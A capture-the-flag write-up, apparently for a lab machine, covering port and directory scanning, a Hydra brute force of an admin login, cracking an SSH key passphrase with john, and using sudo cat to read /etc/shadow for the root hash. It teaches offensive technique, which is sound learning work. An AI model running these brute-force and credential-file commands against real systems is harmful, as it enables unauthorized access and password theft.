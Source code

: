 ```yaml
---
layout: post
author: Fr4nSec
tags: [Linux, HTTP POST]
---
```


## Objectives

- Username and password of the admin panel
- User flag
- Web flag
- RSA password
- root password
- root flag


## Recon

Let's scan the target IP address..

```
nmap -p 22,80 -sCV 10.10.201.153 > PortScan
cat PortScan
```
![scan1](/images/bruteit/scan1.png)

Port 80 is open. Let's see what's there:

```
gobuster dir -u http://10.10.201.153:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/images/bruteit/gobuster.png)

There is something at /admin (http://10.10.201.153/admin)

![adminpanel](/images/bruteit/adminpanel.png)

Always check the source code

![sourcecode](/images/bruteit/sourcecode.png)




## Exploitation

Now we know the username is **'admin'** and notice the payload of the POST request. We can use this to brute force the login page. For this we will need a word from a failed attempt.

![request](/images/bruteit/request.png)

And we use Hydra to brute force

```
hydra -l admin -P /home/kali/rockyou.txt 10.10.201.153 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](/images/bruteit/hydra.png)

We cracked the password of the panel admin account. Let's access.

![flag0](/images/bruteit/flag0.jpg)

 We have a flag now and a RSA private key that we can download. Let's crack it.
 
 ![john](/images/bruteit/john.png)
 
 Now we use the SSH Key to access the target (remember to make sure the SSH Key has the correct permissions).
 
 To change permissions:
 
 ```
chmod 600 id_rsa
```
 
 Let's connect:
 
 ```
ssh -i id_rsa john@10.10.201.153
```
 
 ![ssh1](/images/bruteit/ssh1.png)
 

## Privilege escalation

 In these situations, one of the first things i usually do is to check if the user has any privilege with sudo
 
 ```
sudo -l
```

![sudo](/images/bruteit/sudo.png)

It seems that this user can use 'cat' as sudo! That means we can read anything!

 ```
sudo cat /etc/shadow | grep root > roothash
cat roothash
```

![cat](/images/bruteit/cat.png)

We can now crack the hash:

 ```
john roothash --wordlist=/home/kali/rockyou.txt
```

![crack](/images/bruteit/crack.png)

